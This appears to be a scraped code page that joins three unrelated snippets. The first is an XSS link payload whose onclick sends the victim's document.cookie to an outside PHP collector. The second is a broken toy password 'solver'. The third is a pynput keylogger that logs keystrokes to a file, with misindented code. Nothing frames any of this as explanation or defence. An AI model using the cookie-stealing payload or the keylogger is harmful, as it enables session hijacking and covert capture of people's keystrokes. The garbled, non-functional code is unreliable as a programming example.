 <a href=# onclick=\"document.location=\'http://techpanda.org/snatch_sess_id.php?c=\'+escape\(document.cookie\)\;\">Jayhind</a>

import random
import time
password = "" 
attempted_password = "" 
list_of_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" 
for letter in range(0,random.randint(100000, 250000)):
    password += list_of_chars[random.randint(0, 61)] 
    def solve_password(word):
        global attempted_password
        for character in word:
            for entry in list_of_chars:
                if character == entry: 
                    attempted_password += character 
                continue
            return attempted_password
print("The password: {0:}\nLength of password was: {1:}\nIs correct?:{2:}".format(solve_password(password),len(password), attempted_password == password))



from pynput.keyboard import Key, Listener
import logging
logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format=" %(asctime)s - %(message)s")
def on_press(key):
    logging.info(str(key))
    with Listener(on_press=on_press) as listener :
        listener.join()
